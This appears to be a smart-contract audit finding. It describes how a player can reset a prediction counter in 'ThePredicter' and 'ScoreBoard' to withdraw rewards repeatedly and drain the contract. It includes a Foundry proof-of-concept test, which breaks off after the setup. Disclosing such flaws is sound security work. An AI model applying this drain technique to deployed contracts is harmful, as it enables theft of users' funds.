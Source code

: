 

## Summary

A malicious user can make use of the functions `ThePredicter.withdraw` and `ScoreBoard.setPrediction` to withdraw rewards multiple times and drain most / all of the contract funds.

## Vulnerability Details

The function `ThePredicter.withdraw` uses the function `ScoreBoard.isElegibleForReward` to determine if a player can claim rewards. `ScoreBoard.isElegibleForReward` checks that the value of `ScoreBoard.playersPrediction[player].predictionsCount` is greater than one to allow a user to claim rewards, and the function `ThePredicter.withdraw` sets that value to 0 to prevent a player from claiming the rewards twice. However, the function `ScoreBoard.setPrediction` can be used by the player to set `ScoreBoard.playersPrediction[player].predictionsCount` to a value greater than 0, allowing the player to claim the rewards again.

This mechanism can be used multiple times to drain potentially all the funds in `ThePredicter`

The following PoC based on existing tests in the repository shows how a user can drain the contract by exploiting this vulnerability

```Solidity
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {Strings} from "@openzeppelin/contracts/utils/Strings.sol";
import {ThePredicter} from "../src/ThePredicter.sol";
import {ScoreBoard} from "../src/ScoreBoard.sol";

contract MultipleWithdrawTest is Test {
    ThePredicter public thePredicter;
    ScoreBoard public scoreBoard;
    address public organizer = makeAddr("organizer");
    address public stranger = makeAddr("stranger");

    function setUp() public {
        vm.startPrank(organizer);
        scoreBoard = new ScoreBoard();
        thePredicter = new ThePredicter(
            address(scoreBoard),
            0.04 ether,
            0.0001 ether
        );
        scoreBoard.setThePredicter(address(thePredicter));
        vm.stopPrank();
    }

    function test_multipleWithdrawForSinglePlayer() public {
        address stranger2 = makeAddr("stranger2");
        address stranger3 = makeAddr("stranger3");

        vm.startPrank(stranger);
        vm.deal(stranger, 1 ether);
        thePredicter.register{value: 0.04 ether}();
        vm.stopPrank();

        vm.startPrank(stranger2);
        vm.deal(stranger2, 1 ether);
        thePredicter.register{value: 0.04 ether}();
        vm.stopPrank();

        vm.startPrank(stranger3);
        vm.deal(stranger3, 1 ether);
        thePredicter.register{value: 0.04 ether}();
```